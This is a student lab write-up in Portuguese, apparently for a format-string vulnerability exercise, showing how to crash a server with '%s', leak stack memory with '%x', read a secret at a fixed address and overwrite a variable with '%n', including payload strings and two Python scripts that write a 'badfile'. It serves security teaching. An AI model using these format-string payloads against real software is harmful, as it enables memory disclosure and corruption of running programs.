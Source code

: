 ### Task 1

Ao ler 'hello' de input:

![hello](https://user-images.githubusercontent.com/123839132/231914295-4263fe2a-b4c6-4131-b0b1-d9af5f97254b.png)
![hello_result](https://user-images.githubusercontent.com/123839132/231913955-0a896828-834d-4b75-8ac8-b5d9d6be88e7.png)

Isto significa que correu tudo como esperado.

O nosso objetivo é fornecer um input ao servidor de tal forma que quando o servidor tenta imprimir o input usando a função myprintf vai crashar.Se não retornar "Returned Properly" significa que o programa crashou.

Ao ler '%s' de input:

![echo_command](https://user-images.githubusercontent.com/123839132/231913242-f7b24029-b042-47c5-a195-f99b2b672ab1.png)
![result](https://user-images.githubusercontent.com/123839132/231913246-427c4b28-7b48-417c-aca3-9dd87224a743.png)

Para resolver esta tarefa, só precisámos fornecer "%s" como entrada para o servidor e o programa crasha com sucesso. Isto acontece porque a chamada printf() com %s requer que o argumento seja um ponteiro para um array de char, mas nesta chamada nenhum argumento é fornecido. Assim,a função tentará imprimir o primeiro elemento da pilha, mas como o primeiro elemento da pilha não é uma string, o programa crasha.

### Task 2
#### Task 2.a

O input de 4 bytes que decidimos escrever foi "AAAA" de forma a ser mais fácil identificar (0x41414141). Assim, o objetivo foi procurar por este último valor no nosso output para saber exatamente quantos especificadores de formato %x precisavamos. 
Após algumas tentivas, acabamos por perceber que precisávamos de 64%x para imprimir o nosso input.

![task2a_echo](https://user-images.githubusercontent.com/123839132/232046635-7654aad2-0ae9-4be1-8dc8-aa936b97856c.png)
![Task2a_result](https://user-images.githubusercontent.com/123839132/232046650-860400c9-2637-418d-88ea-d46df73c964c.png)

Como já sabiamos que apenas precisávamos de 64%x para imprimir o nosso input, reduzimos o número de %x para verificar se o último endereço impresso seria o pretendido.
![Task2_echo_quantidade_certa](https://user-images.githubusercontent.com/123839132/232046699-55e293b4-4cdb-45cf-8395-39954dd6942b.png)
![Task2a_result_quanti_certa](https://user-images.githubusercontent.com/123839132/232046710-30e05d49-beab-4268-a6d0-89f3de2e4c68.png)

#### Task 2.b

Depois de saber a localização dos primeiros 4 bytes de nossa entrada, para obter a mensagem secreta, basta adicionar o endereço da mensagem secreta à string, seguido da quantidade certa de %x, para ir para o endereço correto da stack. Depois, precisamos adicionar um %s para que imprima o valor daquele endereço de memória, assim:

``number  = 0x080b4008``

``s = "\x08\x40\x0b\x08" + ".%x"*63 + "%s"``

Obtendo o seguinte:

![Screenshot from 2023-04-14 17-00-27](https://user-images.githubusercontent.com/124071367/232096042-a2cd709b-7687-47d5-904f-ad1be45b1620.png)

### Task 3
#### Task 3.a

Para modificar o valor do target, basta aplicar a mesma lógica que fizemos para mostrar a mensagem secreta na Task anterior. Primeiramente, precisamos converter o endereço do alvo ``number  = 0x080e5068`` para Little-Endian, seguido de uma certa quantidade de %x.
A única diferença é que agora, invés de querer ver a string, dada pelo %s, queremos modificar o valor, tendo que substituir o %s por um %n.

``s = "\x68\x50\x0e\x08" + ".%x"*63 + "%n\n"``

![Screenshot from 2023-04-14 17-21-49](https://user-images.githubusercontent.com/124071367/232100926-92bc0367-620e-4663-bbe4-62098b274818.png)

Depois de executar o script, alteramos o valor com sucesso
![Screenshot from 2023-04-14 17-13-41](https://user-images.githubusercontent.com/124071367/232099228-44cb2ba0-6285-42a2-8cab-bfd2acc87e95.png)


#### Task 3.b

``Para este exercício encontramos duas formas de resolução um pouco distintas.``

O objetivo desta tarefa era alterarmos o valor de destino para 0x5000. Também sabemos que para para conseguirmos “alterar” o valor de ``0x5000`` precisamos de imprimir 20480 caracteres ( Valor do 0x5000 em hexadecimal) antes do “%n”.

##### 1ªresolução:

Como a variável number e abcd ocupam, cada um, 4 bytes como diz em comentário no código, começamos por fazer 20480 - 8 = 20472. Depois como a nossa string dada como input ocupa 4 bytes subtraimos 4 a 20472 que dá 20468. Portanto, para imprimir 0x5000 (20480), precisamos que cada chamada %x tenha uma precisão de 330 (20468/62 = 330.12) caracteres e mais  8 caracteres , uma vez que 20468 - 330 * 62 = 8.

```ruby
#!/usr/bin/python3
import sys

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

# This line shows how to store a 4-byte integer at offset 0
number  = 0x080e5068
content[0:4]  =  (number).to_bytes(4,byteorder='little')

# This line shows how to store a 4-byte string at offset 4
content[4:8]  =  ("abcd").encode('latin-1')

# This line shows how to construct a string s with
#   12 of "%.8x", concatenated with a "%n"
s = "\x68\x50\x0e\x08" + "%.330x" * 62 + "%.8x" + "%n\n"

# The line shows how to store the string s at offset 8
fmt  = (s).encode('latin-1')
content[8:8+len(fmt)] = fmt

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```

![Screenshot from 2023-04-14 23-06-10](https://user-images.githubusercontent.com/124071367/232166327-a8084e54-20c8-485a-a456-149b037b1103.png)

##### 2ªresolução:

O numero máximo de caracteres que podemos inserir é 1500, devido ao buffer. 

```ruby
#!/usr/bin/python3
import sys

N = 1500
content = bytearray(0x0 for i in range(N))

number  = 0x080e5068
content[0:4]  =  (number).to_bytes(4,byteorder='little')

content[4:8]  =  ("abcd").encode('latin-1')

s = "%.10x"*62 + "%.19852x" + "%n\n" 

fmt  = (s).encode('latin-1')
content[8:8+len(fmt)] = fmt

with open('badfile', 'wb') as f:
  f.write(content)
```

- Usamos o "%.10x" para imprimir cada valor hexadecimal com uma largura mínima de 10, escolhemos este valor por causa da quantidade de caracteres do "number".
- "%.10x * 62 = 620 e então subtraindo ao numero de caracteres que temos que imprimir obtemos 19860.
- A esse valor subtraímos 8 , devido aos bytes já utilizados na nossa memória, sobrando 19852 caracteres.

![terminal](https://user-images.githubusercontent.com/123839132/232353134-0b6ff215-91ff-4e25-bd00-df51f3b4f0a8.png)
